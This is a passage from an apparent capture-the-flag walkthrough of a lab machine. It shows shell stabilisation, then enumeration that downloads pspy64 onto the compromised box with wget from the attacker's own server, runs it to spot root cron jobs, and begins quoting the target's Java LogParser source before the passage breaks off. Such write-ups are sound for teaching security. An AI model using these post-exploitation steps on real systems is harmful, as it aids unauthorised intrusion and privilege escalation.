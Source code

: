 Next, we'll set the terminal by running
```bash
export TERM=xterm
```

We should have a pretty stable and feature-rich shell on the box now.

### Enumeration
For enumeration on this box, we'll use [pspy](https://github.com/DominicBreuker/pspy).  Download the latest `pspy64` release from GitHub to your local machine and put it into that same `www` directory from earlier.

On the box, run
```bash
wget http://<YOUR IP ADDRESS>:8000/pspy64
chmod +x pspy64
./pspy64
```

Looking through the output (remembering to wait a while to see processes that aren't consistently running), we can see that the root user automatically runs the following scripts on a periodic basis

```
2022/09/11 03:16:01 CMD: UID=0    PID=78928  | java -jar /opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar 
2022/09/11 03:16:01 CMD: UID=0    PID=78927  | /bin/sh /root/run_credits.sh
```

Looking into the `/credit-score/LogParser` directory, we can see the source code in `LogParser/final/src/main/java/com/logparser/App.java`. Here it is 

```java
package com.logparser;
import java.io.BufferedWriter;
import java.io.File;
import java.io.FileWriter;
import java.io.IOException;
import java.util.HashMap;
import java.util.Map;
import java.util.Scanner;

import com.drew.imaging.jpeg.JpegMetadataReader;
import com.drew.imaging.jpeg.JpegProcessingException;
import com.drew.metadata.Directory;
import com.drew.metadata.Metadata;
import com.drew.metadata.Tag;

import org.jdom2.JDOMException;
import org.jdom2.input.SAXBuilder;
import org.jdom2.output.Format;
import org.jdom2.output.XMLOutputter;
import org.jdom2.*;

public class App {
    public static Map parseLog(String line) {
        String[] strings = line.split("\\|\\|");
        Map map = new HashMap<>();
        map.put("status_code", Integer.parseInt(strings[0]));
        map.put("ip", strings[1]);
        map.put("user_agent", strings[2]);
        map.put("uri", strings[3]);
        

        return map;
    }
    public static boolean isImage(String filename){
        if(filename.contains(".jpg"))
```